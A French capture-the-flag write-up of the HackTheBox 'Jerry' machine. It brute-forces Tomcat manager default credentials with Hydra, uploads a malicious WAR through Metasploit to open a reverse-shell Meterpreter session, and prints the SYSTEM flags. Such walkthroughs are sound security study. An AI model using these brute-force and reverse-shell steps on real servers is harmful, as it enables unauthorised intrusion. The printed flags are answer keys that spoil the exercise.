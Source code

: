 # Solution du CTF Jerry de HackTheBox

Introduction
------------

Ce CTF a été de loin la pire expérience sur HackTheBox : un challenge ultra simple pourri par d'autres utilisateurs qui réinitialisaient les mots de passe non-stop, sans compter les reset fréquents de la machine lancés par les autres utilisateurs excédés.  

Blitzkrieg
----------

On a un Apache Tomcat/7.0.88 tournant sur le port 8080. Le système semble être un Microsoft Windows Server 2012.  

On trouve facilement [une liste de mots de passe par défaut](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) pour l'accès au Tomcat.  

On peut bruteforcer l'accès à la section manager via le module Metasploit *scanner/http/tomcat\_mgr\_login* ou encore via Hydra en espérant que le mot de passe n'a pas été préalablement changé :  

```plain
$ hydra -P  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt http-get://10.10.10.95:8080/manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-01 13:28:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42 login tries (l:6/p:7), ~3 tries per task
[DATA] attacking http-get://10.10.10.95:8080//manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-01 13:28:13
```

Dès lors on peut exploiter le Tomcat par l'upload d'un fichier WAR spécifique, ce que fait très bien Metasploit pour nous :  

```plain
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.35:443
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Executing 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Undeploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv ...
[*] Sending stage (53837 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.35:443 -> 10.10.10.95:49192) at 2018-07-07 09:34:26 +0200

meterpreter > getuid
Server username: JERRY$
meterpreter > pwd
C:\apache-tomcat-7.0.88
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


*Published November 17 2018 at 18 43*